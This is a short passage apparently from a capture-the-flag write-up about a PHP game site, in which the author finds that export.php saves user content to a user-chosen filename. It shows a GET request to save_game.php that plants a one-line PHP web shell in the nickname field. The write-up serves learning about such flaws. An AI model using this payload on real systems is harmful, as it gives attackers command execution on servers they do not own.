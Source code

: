 ![](/assets/obsidian/32050618c4e632cfff0abf7eebcd1607.png)

`admin.php` only calls `get_top_players()` which we discovered invulnerable

`export.php` accepts content from user and saves to user controlled filename on local

![](/assets/obsidian/594ac7d56ec53eabcc06865e7e987082.png)

![](/assets/obsidian/05619bdabf2ab31966105e84571d7e2e.png)

Nickname have the type `string`, so replace my nickname to web shell code

```c
GET /save_game.php?clicks=999999999&level=999999999&nickname=<?=`$_GET[0]`;?>
```

![](/assets/obsidian/fbfb496c5d9f6e39288a67bfe4de79fc.png)
